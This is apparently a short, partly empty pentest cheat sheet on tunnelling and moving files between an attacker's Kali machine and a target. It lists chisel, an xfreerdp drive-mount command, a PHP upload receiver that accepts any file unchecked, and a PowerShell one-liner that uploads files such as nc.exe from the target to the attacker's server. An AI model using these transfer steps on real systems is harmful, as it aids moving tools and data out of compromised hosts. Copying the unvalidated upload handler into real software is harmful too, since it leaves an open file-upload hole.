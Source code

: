 # Tunnel Proxy Transfer

## Tunnel

### chisel

<https://github.com/jpillora/chisel>

chisel 是一个用于创建隧道的工具，它可以通过HTTP代理或者SOCKS5代理来创建隧道。

### dnsmasq

## Proxy

## Transfer

### download

#### rdp

```bash
xfreerdp /u:username /p:password /v:172.16.8.137 /w:1024 /h:768 /drive:home,/home/kali/Downloads
```

### upload

#### appache php server

/var/www/html/upload.php

```php
<?php
$uploaddir = '/var/www/uploads/';
$uploadfile = $uploaddir.$_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile);
?>
```

```bash
sudo mkdir /var/www/uploads
sudo chown www-data: /var/www/uploads
```

```powershell
powershell (new-object System.Net.WebClient).UploadFile('http://172.16.8.144/upload.php', 'C:\Users\Public\nc.exe')
```

## Tips

1.
